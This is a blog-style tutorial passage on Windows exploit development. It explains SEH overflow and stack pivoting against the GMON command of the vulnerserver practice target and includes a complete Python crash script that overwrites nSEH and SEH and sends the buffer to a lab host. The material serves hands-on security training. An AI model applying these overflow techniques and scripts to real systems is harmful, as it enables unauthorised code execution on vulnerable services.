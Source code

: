 # Windows 10 Exploit Development - SEH Overflow & Stack Pivoting

- [Windows 10 Exploit Development - SEH Overflow & Stack Pivoting](#windows-10-exploit-development---seh-overflow--stack-pivoting)
  - [Prologue](#prologue)
  - [Stack Pivoting](#stack-pivoting)
  - [Finding the best way](#finding-the-best-way)
  - [Performing long jump](#performing-long-jump)
  - [Exploitation](#exploitation)

## Prologue

I had already discussed about ```SEH``` and how to overflow SEH to perform exploitation along with ```Egg hunters``` & ```Stack pivoting``` in my previous blog of this series

In this blog, we will be performing only ```Stack pivoting``` to exploit the GMON command

## Stack Pivoting

As we discussed in previous blog post, stack pivoting can be used to control the program execution to run our shellcode

The point is, we need to find a suitable way to pivot the stack so that our payload will get executed (It like pointing the way to the program for our shellcode)

Egg hunters do not work as expected everytime, so it is best to try an alternate approach to exploit with short buffers

We used ```egg hunter``` to find the egg inside our memory and made our shellcode to get executed, what if we directly stack pivot into the memory region containing shellcode with NOPS

By doing this, we don't need egg hunter and egg

## Finding the best way

After crashing with our python script, by overwriting SEH and nSEH values

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-nseh.py 
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"\xeb\xce"
payload+=b"\x90\x90"
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62"
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-nseh.py 
```
